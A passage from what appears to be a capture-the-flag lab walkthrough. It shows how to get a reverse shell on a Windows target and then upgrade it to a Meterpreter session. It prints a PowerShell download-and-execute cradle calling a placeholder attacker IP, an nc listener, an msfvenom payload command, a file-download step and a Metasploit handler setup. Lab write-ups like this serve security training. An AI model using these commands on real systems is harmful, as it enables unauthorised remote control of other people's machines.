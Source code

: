 Now run this on the website to get the reverse shell on the machine:
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port 1234
```

One last thing to set up is a listener on our machine:
```bash
nc -lvnp 1234
```

Then save the project, go to the dashboard and build -> run the project, in a couple of second you should get the shell.

Now we need to find and submit the user flag, lets navigate to `C:\Users\bruce\Desktop` and run:
```powershell
type user.txt
```

<br/>

### Switching Shells
We are then told to use *msfvenom* to generate a file to gain a new shell using the command:
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
```

This payload generates an encoded x86-64 reverse TCP meterpreter payload.

After creating this payload, create a new HTTP server and download it to the target:
On your machine:
```bash
python3 -m http.server
```

On target:
```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"
```

Before running this program, ensure the handler is set up in Metasploit:
```bash
msfconsole
```
```bash
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-thm-ip set LPORT listening-port run
```

﻿This step uses the Metasploit handler to receive the incoming connection from your reverse shell. Once this is running, enter this command to start the reverse shell
```powershell
Start-Process "shell-name.exe"
```

This should spawn a meterpreter shell for you!
